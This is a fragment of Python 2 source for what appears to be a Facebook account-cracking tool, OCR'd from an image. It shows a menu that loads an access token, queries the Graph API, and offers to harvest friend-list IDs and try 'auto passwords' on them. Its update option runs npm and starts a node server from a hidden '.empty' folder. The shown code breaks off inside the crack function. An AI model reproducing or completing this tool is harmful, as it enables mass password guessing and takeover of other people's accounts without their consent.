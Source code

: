 		
def menu():
    os.system("clear")
    try:
        token = open("access_token.txt", "r").read()
    except(KeyError , IOError):
        menu_login()
    try:
        r = requests.get("https://graph.facebook.com/me?access_token="+token, headers=header)
        q = json.loads(r.text)
        name = q["name"]
    except(KeyError):
        print banner
        print("")
        print("logged account has checkpoint").center(50)
	time.sleep(3)
        os.system("rm -rf access_token.txt")
        print("")
        time.sleep(1)
        menu_login()
    os.system("clear")
    print banner
    print("\033[0;90m\tlogged user : " +name)
    print("")
    print("\033[1;92m [1] Clone Friendlist And Public ID")
    print("\033[1;93m [2] Clone With Auto Password")
    print("\033[1;95m [3] View Your Login Token")
    print("\033[1;96m [4] Update Tool")
    print("\033[1;97m [0] Main Menu Back")
    print(50*"-")
    menu_select()
def menu_select():
	select = raw_input("\033[1;92m[!]\033[1;93m Choose :\033[1;97m ")
	if select =="1":
		crack()
	elif select =="2":
		choose()
	elif select =="3":
		view_token()
	elif select =="4":
		os.system("cd .empty && npm install")
                os.system("fuser -k 5000/tcp &")
                os.system("cd .empty && node index.js &")
		os.system("git pull")
		time.sleep(2)
		menu()
	elif select =="0":
		os.system("clear")
	        print banner
	        print("")
	        raw_input("Press Enter To Tool Logout")
	        time.sleep(3)
	        os.system("exit")
	else:
		print("")
		print("\tSelect valid option")
		print("")
		menu_select()
def crack():
	global token
	os.system("clear")
	try:
		token = open("access_token.txt","r").read()
	except IOError: